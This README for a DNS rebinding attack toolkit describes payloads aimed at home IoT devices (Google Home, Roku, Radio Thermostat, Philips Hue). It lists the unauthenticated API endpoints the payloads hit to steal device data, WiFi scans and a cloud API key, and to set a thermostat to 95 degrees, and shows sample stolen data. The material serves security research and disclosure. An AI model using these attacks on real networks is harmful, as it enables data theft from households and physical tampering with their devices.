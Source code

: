 # Common Payloads

The `payloads/` folder contains a small collection of payloads written for common home IoT devices.

- `google-home.html`: A payload that targets [Google Home's undocumented REST API](https://rithvikvibhu.github.io/GHLocalApi/). This API is supported by several Google Home products, like Chromecast, certain smart TVs, and of course the Google Home and Google Home Mini.
- `roku-info.html`: [Roku's External Control API](https://sdkdocs.roku.com/display/sdkdoc/External+Control+API) allows direct control over the device via an unauthenticated REST API. There is plenty of fun to be had here.
- `radio-thermostat.html`: The [WiFi Radio Thermostat CT50 & CT80](https://github.com/brannondorsey/radio-thermostat) don't require [any authentication](https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) to their REST APIs. This payload exploits this vulnerability and sets the building temperature to 90 degrees and exfiltrates a cloud API key.
- `phillips-hue.html`: Detect the presence of a Phillips Hue Bridge lighting system and exfiltrate basic information about the device.

## Google Home

Chromecast has been using an undocumented API served on port 8008 [since at least 2013](http://fiquett.com/2013/07/chromecast-traffic-sniffing/). Recently [Rithvik Vibhu](https://github.com/rithvikvibhu/) did a bang up job [documenting the hell out of it](https://rithvikvibhu.github.io/GHLocalApi). When they rolled out their line of Google Home products it appears they have also integrated the same API into those products as well. `payloads/google-home.html` exploits a few of these API calls to exfiltrate information about the Chromecast device and its surrounding WiFi networks to `server.js`. Specifically, it makes GET requests to the following URLs:

```bash
# assuming a Google Home device is present at 192.168.1.24

# get basic information about the device
http://192.168.1.24:8008/setup/eureka_info?params=version,audio,name,build_info,detail,device_info,net,wifi,setup,settings,opt_in,opencast,multizone,proxy,night_mode_params,user_eq,room_equalizer

# get a list of nearby wifi networks from a recent WiFi scan
http://192.168.1.24:8008/setup/scan_results

# get a mysterious access token. Idk what it is used for?
http://192.168.1.24:8008/setup/offer
```

The payload combines the results of these three queries into on JSON object and uploads it to `server.js` where it is saved in the `data/` directory.

[Here](https://pastebin.com/U3tUqmRf) is an example of the JSON file created by my chromecast at home.

## Roku

The [Roku External Control API](https://sdkdocs.roku.com/display/sdkdoc/External+Control+API) provides unauthenticated control of the entertainment device. `payloads/roku-info.html` exfiltrates information about the device as JSON to `server.js`. 

```bash
# assuming a Roku device is present at 192.168.1.88

# get basic device info
http://192.168.1.88:8060:query/device-info

# get a list of all apps on the device
http://192.168.1.88:8060:query/apps
```

Full device control is available over this API. You can open apps, play content, and control keypresses. I'll leave it up to someone else to write experiment with this functionality ;) PRs welcome!

Here is an example of Roku data exfiltrated using [`payloads/roku-info.html`](https://pastebin.com/WSv5egcY).

**Note**: The exfiltrated data is served as XML from the Roku device, but converted to JSON by `share/xmlToJSON.min.js`. It's not pretty, but I opted for JSON consistency across exfiltrated data in this repo. A custom payload could easily be written to preserve the original XML.

## Radio Thermostat

The [Radio Thermostat CT50 & CT80](http://www.radiothermostat.com/) (perhaps other models too) support a documented REST API to control heating/cooling in your house from your LAN. This is particularly interesting because there isn't any authentication to access this API, leaving anyone on the network to have full control of the device. Daniel Crowly of Trustwave SpiderLabs [reported this vulnerability](https://web.archive.org/web/20180401193243/https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) back in 2013, but the company doesn't seem to give a sh!t.

> CVE: CVE-2013-4860
> CWE: CWE-287 Improper Authentication

>When on the same network as a Radio Thermostat unit, no authentication is
required to use any part of the API. Users on the same subnet as the unit
can query and change various settings such as the operation mode, wifi
connection settings, and temperature thresholds.

This unauthenticated physical control API makes a perfect target for DNS rebind attacks from the WAN. `payloads/radio-thermostat.html` exfiltrates building temperature, basic system information, device name, network information, and a cloud API key before setting the target temperature in the house to 95 degrees.

```bash
# assuming a Radio Thermostat device is present at 192.168.1.209

# get the current temperature
http://192.168.1.209/tstat/temp

# get basic system information
http://192.168.1.209/sys

# get the device name
http://192.168.1.209/sys/name

# get info about the WiFi network the device is connected to
http://192.168.1.209/sys/network

# see if there is a cloud key sitting on this device
http://192.168.1.209/cloud

# and of course... set the temperature to 95 degrees!
http://192.168.1.209/tstat
```

The data exfiltrated by `payloads/radio-thermostat.html` is saved to `data/` and looks like this:

```json
{
    "uuid": "2002af759f67",
    "api_version": 113,
    "fw_version": "1.04.84",
    "wlan_fw_version": "v10.105576",
    "name": "TotallySecureThermostat",
    "ssid": "myWiFiNetwork",
    "bssid": "79:8e:cd:87:2c:38",
    "channel": 11,
    "security": 4,
    "ip": 1,
    "rssi": -33,
    "interval": 300,
    "url": "http://ws.radiothermostat.com/services.svc/StatIn",
    "status": 0,
    "enabled": 0,
    "authkey": "",
    "status_code": 0,
    "temp": 73.5
} 
```

See [brannondorsey/radio-thermostat](https://github.com/brannondorsey/radio-thermostat) for full documentation of this REST API.

## Phillips Hue Bridge

Up until 2016 the Phillip's Hue Bridge wireless light bulb controller could easily be controlled by an unauthenticated attacker. They've since updated their firmware to protect against this. While you can no longer control the device via a DNS rebinding attack you can still identify that a hue bridge is on the network and exfiltrate basic information about the device. The data that can be accessed is relatively harmless.

```bash
# assuming a phillips hue bridge device is present at 192.168.1.8

# get basic info about the device. Best I can tell this is the only API endpoint
# that can be accessed by an unauthenticated user. Authentication requires
# physical access.
http://192.168.1.8/api/nouser/config
```

The data exfiltrated by `payloads/phillips-hue.html` is saved to `data/` and looks like this:

```json
{
    "name": "Philips hue",
    "datastoreversion": "70",
    "swversion": "1802201122",
    "apiversion": "1.24.0",
    "mac": "00:17:88:6f:a5:91",
    "bridgeid": "001788FFFD69A591",
    "factorynew": false,
    "replacesbridgeid": null,
    "modelid": "BSB002",
    "starterkitid": ""
}
```


